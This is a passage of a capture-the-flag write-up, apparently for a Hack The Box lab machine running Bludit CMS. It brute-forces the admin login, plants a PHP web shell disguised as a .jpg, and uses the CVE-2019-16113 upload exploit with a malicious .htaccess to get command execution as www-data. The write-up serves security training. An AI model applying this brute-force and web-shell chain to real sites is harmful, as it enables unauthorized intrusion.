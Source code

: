 ```bash
❯ echo "fergus" > Exploits/users.txt
❯ python3 Exploits/bludit_bf.py -u "http://10.10.10.191/admin/login" -w ./Exploits/users.txt -x /usr/share/seclists/Passwords/xato-net-10-million-passwords-1000.txt
```
But we didn't find the password. Another thing we can try is generating custom dictionaries related to the web's content:
```bash
❯ sudo cewl http://10.10.10.191 > Exploits/passwds.txt
❯ python3 Exploits/bludit_bf.py -u "http://10.10.10.191/admin/login" -w ./Exploits/users.txt -x Exploits/passwds.txt
[!] Credential found: User 'fergus' with password 'RolandDeschain'
```
We obtained the credentials `fergus:RolandDeschain`.

#### LFI trough /admin/dashboard
Now that we have access to the admin panel, we see we are able to create new contents, where we can upload images. After testing the extension restrictions, we know we can upload `.jpg, .jpeg, .png, .gif, .bmp, .svg` files. Now we can try to upload a malicious image that gives us a reverse shell on the server.
To do so, first, we will code the php web shell:
```php
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: Exploits/file.jpg
       │ Size: 89 B
───────┼───────────────────────────────────────────────────────────────────────────
   1   │ <?php
   2   │   if ($_REQUEST['cmd'])
   3   │     echo "<pre>".shell_exec($_REQUEST['cmd'])."</pre>";
   4   │ ?>
───────┴───────────────────────────────────────────────────────────────────────────
```
We found an exploit that allows RCE through the image upload feature, thanks to the [CVE-2019-16113](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16113). For this attack vector to work, we need to upload a malicious `.htaccess` that makes the webpage interprete images as php files.
```bash
❯ cd Exploits
❯ searchsploit -m multiple/webapps/48701.txt
❯ cd ..
❯ nvim Exploits/48701.txt # Modify the script for your own schema
❯ echo "RewriteEngine off" > Exploits/.htaccess
❯ echo "AddType application/x-httpd-php .jpg" >> Results/.htaccess
❯ mv Exploits/48701.txt Exploits/48701.py
❯ cd Exploits
❯ python3 48701.py
cookie: qoo03qndu465dn3k01rm5828f5
csrf_token: 1be94986905c913023a777256a74f12e059997c7
Uploading payload: file.jpg
Uploading payload: .htaccess
```
Now, we can try the RCE and obtain a reverse shell:
```bash
❯ curl "10.10.10.191/bl-content/tmp/temp/file.jpg"
❯ curl "10.10.10.191/bl-content/tmp/temp/file.jpg?cmd=id"
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```
We obtained a user shell as `www-data`.

